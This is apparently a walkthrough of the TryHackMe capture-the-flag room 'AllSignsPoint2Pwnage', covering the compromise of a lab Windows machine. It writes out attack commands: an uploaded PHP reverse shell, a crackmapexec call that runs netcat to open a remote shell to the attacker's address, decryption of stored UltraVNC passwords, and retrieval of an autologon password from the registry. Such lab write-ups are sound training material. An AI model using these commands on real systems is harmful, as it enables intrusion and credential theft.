

# AllSignsPoint2Pwnage
**Date:** May 27th 2022

**Author:** j.info

**Link:** [**AllSignsPoint2Pwnage**](https://tryhackme.com/room/allsignspoint2pwnage) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Medium

<br>



<br>

## Objectives
- How many TCP ports under 1024 are open?
- What is the hidden share where images should be copied to?
- What user is signed into the console session?
- What hidden, non-standard share is only remotely accessible as an administrative account?
- What is the contents of user_flag.txt?
- What is the Users Password?
- What is the Administrators Password?
- What executable is used to run the installer with the Administrator username and password?
- What is the VNC Password?
- What is the contents of the admin_flag.txt?

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 -Pn 10.10.0.194`

```bash
PORT     STATE SERVICE        VERSION
21/tcp   open  ftp            Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_11-14-20  04:26PM                  173 notice.txt
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open  http           Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.11)
|_http-title: Simple Slide Show
135/tcp  open  msrpc?
139/tcp  open  netbios-ssn    Microsoft Windows netbios-ssn
443/tcp  open  ssl/http       Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.11)
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server?
| ssl-cert: Subject: commonName=DESKTOP-997GG7D
| rdp-ntlm-info: 
|   Target_Name: DESKTOP-997GG7D
|   NetBIOS_Domain_Name: DESKTOP-997GG7D
|   NetBIOS_Computer_Name: DESKTOP-997GG7D
|   DNS_Domain_Name: DESKTOP-997GG7D
|   DNS_Computer_Name: DESKTOP-997GG7D
|   Product_Version: 10.0.18362
5900/tcp open  vnc            VNC (protocol 3.8)
| vnc-info: 
|     Ultra (17)
|_    VNC Authentication (2)
```

This answers objective number 1: "How many TCP ports under 1024 are open?".

An additional all ports scan adds the following:

```bash
PORT      STATE SERVICE VERSION
5040/tcp  open  unknown
49664/tcp open  msrpc   Microsoft Windows RPC
49665/tcp open  msrpc   Microsoft Windows RPC
49666/tcp open  msrpc   Microsoft Windows RPC
49667/tcp open  msrpc   Microsoft Windows RPC
49669/tcp open  msrpc   Microsoft Windows RPC
49675/tcp open  msrpc   Microsoft Windows RPC
49676/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```


<br>

### Gobuster Scan

`gobuster dir -u https://10.10.0.194 -t 100 -r -x php,txt,html -k -w dir-med.txt`

Note: Use the **-k** flag or it will not work due to an expired certificate.

```bash
/index.html           (Status: 200) [Size: 1063]
/img                  (Status: 200) [Size: 1216]
/phpmyadmin           (Status: 403) [Size: 302]
/images               (Status: 200) [Size: 1689]
/content.php          (Status: 200) [Size: 165]
/dashboard            (Status: 200) [Size: 7577]
/slide.html           (Status: 200) [Size: 1063]
/applications.html    (Status: 200) [Size: 3607]
```

Both the HTTP and HTTPS versions scan the same and use the same files.

<br>

## Website Digging

Visiting the main page shows us a slide show that loops through several images:


Looking at the page source code shows the javascript code that handles the slide show but nothing else that we don't already know from the gobuster scan.

Looking at **/img** shows us 2 pictures but nothing else.

Going to **content.php** actually shows us something interestingly enough, a list of images the slide show goes through:

```
[{"image":"internet-1028794_1920.jpg"},{"image":"man-1459246_1280.png"},{"image":"monitor-1307227_1920.jpg"},{"image":"neon-sign-4716257_1920.png"},{"image":"null"}]
```

Checking out **/dashboard** gives us the following page:


If you visit the **PHPInfo** link on the top menu bar of that page it gives you all sorts of information like this and more:


Clicking the **phpMyAdmin** link gives us a forbidden error, so we can't login there.

And finally looking at **/images** shows us the images used in the slide show:


<br>

## FTP Digging

We saw in the nmap scan that **anonymous access** was allowed to the FTP server so let's see what's on it:

`ftp 10.10.101.231`

```bash
Connected to 10.10.101.231.
220 Microsoft FTP Service
Name (10.10.101.231:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||50024|)
150 Opening ASCII mode data connection.
11-14-20  04:26PM                  173 notice.txt
226 Transfer complete.
ftp> more notice.txt

NOTICE
======

Due to customer complaints about using FTP we have now moved 'images' to a hidden windows file share for upload and management of images.

- Dev Team
```

<br>

## SMB Digging

`smbclient -L \\10.10.101.231`

```bash
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        images$         Disk      
        Installs$       Disk      
        IPC$            IPC       Remote IPC
        Users           Disk
```

When we connect to **Installs$** and try to view the files we get an accessed denied message which answers the 4th objective: "What hidden, non-standard share is only remotely accessible as an administrative account?"

Looking in the **Users** share shows files we can access and I **mget** them all:

`smbclient -N \\\\10.10.101.231\\Users`

```bash
smb: \> prompt
smb: \> recurse
smb: \> mget *
```

Nothing of interest to be found in them unfortunately.

Connecting to the **images$** share:

`smbclient -N \\\\10.10.101.231\\images$`

```bash
smb: \> ls
  .                                   D        0  Tue Jan 26 13:19:19 2021
  ..                                  D        0  Tue Jan 26 13:19:19 2021
  internet-1028794_1920.jpg           A   134193  Sun Jan 10 16:52:24 2021
  man-1459246_1280.png                A   363259  Sun Jan 10 16:50:49 2021
  monitor-1307227_1920.jpg            A   691570  Sun Jan 10 16:50:29 2021
  neon-sign-4716257_1920.png          A  1461192  Sun Jan 10 16:53:59 2021
```

This answers objective number 2: "What is the hidden share where images should be copied to?".

These are the same files we saw on the website under **/images**, so let's try and upload a reverse shell via SMB and then access the file via the website to get a connection back:

`put multi-os-rev-shell.php`

```bash
putting file multi-os-rev-shell.php as \multi-os-rev-shell.php (3.3 kb/s) (average 3.3 kb/s)
```

**Note**: You can find a copy of [**that reverse shell here**](https://github.com/ivan-sincek/php-reverse-shell/releases/tag/v2.5.1)

Checking the website to make sure it's there and we can launch it:


<br>

## System Access

I set up a listener on my system and click the **multi-os-rev-shell.php** on the website, which gives us a shell back:

```bash
listening on [any] 4444 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.101.231] 49731
SOCKET: Shell has connected!
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\images>
```

<br>

## System Enumeration

Checking our user with `whoami /all`:

```
SER INFORMATION
----------------

User Name            SID                                       
==================== ==========================================
desktop-997gg7d\sign S-1-5-21-201290883-77286733-747258586-1001


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

`net user` shows:

```
User accounts for \\DESKTOP-997GG7D

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
sign                     WDAGUtilityAccount
```

Looking on the users desktop shows us the **user_flag.txt** file giving us the answer to the 5th objective: "What is the content of user_flag.txt?":

```
 Directory of C:\Users\sign\Desktop

01/26/2021  07:28 PM    <DIR>          .
01/26/2021  07:28 PM    <DIR>          ..
11/14/2020  02:15 PM             1,446 Microsoft Edge.lnk
11/14/2020  03:32 PM                52 user_flag.txt
```

I start looking around the file system and come across the **C:\Installs** directory, which is likely the SMB share we saw earlier.

Looking at **Install Guide.txt** with #11 being the important point:

```
1) Disble Windows Firewall
2) Disable Defender ( it sees our remote install tools as hack tools ) 
3) Set the Admin password to the same as the setup script
4) RunAs Administrator on the setup scirpt
5) Share out the images directory as images$ to keep hidden 
6) Reboot
7) Check and fix launch of firefox
8) Check VNC access
9) Advise customer of IP to point other smart devices to http://thismachine/
10) Advise customer of the file share \\thismachine\images$
11) Remove these files as they contain passwords used with other customers.
```

They clearly didn't remove the files since **Install_www_and_deploy.bat** has the following in it:

```
psexec -accepteula -nobanner -u administrator -p <REDACTED> xampp-windows-x64-7.4.11-0-VC15-installer.exe   --disable-components xampp_mysql,xampp_filezilla,xampp_mercury,xampp_tomcat,xampp_perl,xampp_phpmyadmin,xampp_webalizer,xampp_sendmail --mode unattended --launchapps 1
```

Looks like we found the administrator password! That gives us the answer to the 7th objective: "What is the Administrators Password?".

This also answers the 8th objective: "What executable is used to run the installer with the Administrator username and password?".

<br>

## Administrator

I upload an .exe version of netcat over to the system via the SMB share and start a listener up on my system, then run:

`crackmapexec smb 10.10.173.8 -u administrator -p <REDACTED> -x 'C:\xampp\htdocs\images\nc.exe -e cmd 10.6.127.197 4444'`

```
listening on [any] 4444 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.173.8] 50057
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\>whoami
whoami
desktop-997gg7d\administrator
```

Changing over to the administrators desktop directory shows us the **admin_flag.txt** giving us the answer to the last objective:

```
 Directory of C:\Users\Administrator\Desktop

11/14/2020  03:32 PM    <DIR>          .
11/14/2020  03:32 PM    <DIR>          ..
11/14/2020  03:31 PM                54 admin_flag.txt
```

We still have 3 objectives left, let's see if we can find those.

Looking in the **UltraVNC directory** shows us a file called **ultravnc.ini**:

```
 Directory of C:\Program Files\uvnc bvba\UltraVNC

11/14/2020  04:31 PM             1,358 ultravnc.ini
```

Viewing that shows us 2 passwords at the top of the file:

```
[ultravnc]
passwd=B3A8F2D8BEA2F1FA70
passwd2=00B2CDC0BADCAF1397
```

I try and use **vncviewer** to connect over using both of these passwords but they don't work:

`vncviewer 10.10.44.72:5900`

```bash
Connected to RFB server, using protocol version 3.8
Performing standard VNC authentication
Password: 
authentication rejected
```

I search online and these passwords end up being encrypted. [**This GitHub repository**](https://github.com/frizb/PasswordDecrypts) has several different ways that you can decrypt VNC passwords. I use the Linux command line version like this for the first password:

`echo -n B3A8F2D8BEA2F1FA70 | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv`

It gives an error message, but it also gives us the password:

```bash
bad decrypt
139908098565504:error:0606508A:digital envelope routines:EVP_DecryptFinal_ex:data not multiple of block length:../crypto/evp/evp_enc.c:592:
00000000  35 75 70 70 30 72 74 39                           |<REDACTED>|
```

Decrypting the second one gives us:

```bash
bad decrypt
139912093316480:error:0606508A:digital envelope routines:EVP_DecryptFinal_ex:data not multiple of block length:../crypto/evp/evp_enc.c:592:
00000000  cf c4 de 56 c4 2f 87 9c                           |...V./..|
```

I try to connect back over using **vncviewer** and the first password we just found and it works:

```bash
Connected to RFB server, using protocol version 3.8
Performing standard VNC authentication
Password: 
Authentication successful
```


That answers the 3rd objective: "What user is signed into the console session?".

It also gives us the answer to the 10th objective: "What is the VNC Password?". One to go, the users password.

Given the user was automatically logged into the system we can probably pull the password out of the registry. Running:

`reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon"`

```
    AutoLogonSID    REG_SZ    S-1-5-21-201290883-77286733-747258586-1001
    LastUsedUsername    REG_SZ    .\sign
    DefaultUsername    REG_SZ    .\sign
    DefaultPassword    REG_SZ    <REDACTED>
```

Sure enough! That answers the 6th objective.

<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding information on an FTP server with anonymous access enabled
- Using **smbclient** to view SMB shares and finding that the **/images** folder on the website is accessable via SMB
- Uploading a **reverse php shell** to the SMB share and then launching it via the website to establish an initial foothold on the system
- Noticing a clear text **administrator password** inside a config file in the **C:\Installs** directory
- Using **crackmapexec** with the admins credentials and the **-x flag** to run a command on the target system that gave us an **admin reverse shell** back
- Finding **encrypted UltraVNC passwords** in a config file and then decrypting them which allowed us VNC access
- And finally finding that the **sign** user is automatically logged into the system when we login to VNC which allowed us to find their clear text password stored in the **winlogon registry key**

<br>

Many thanks to:
- [**apjone**](https://tryhackme.com/p/apjone) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)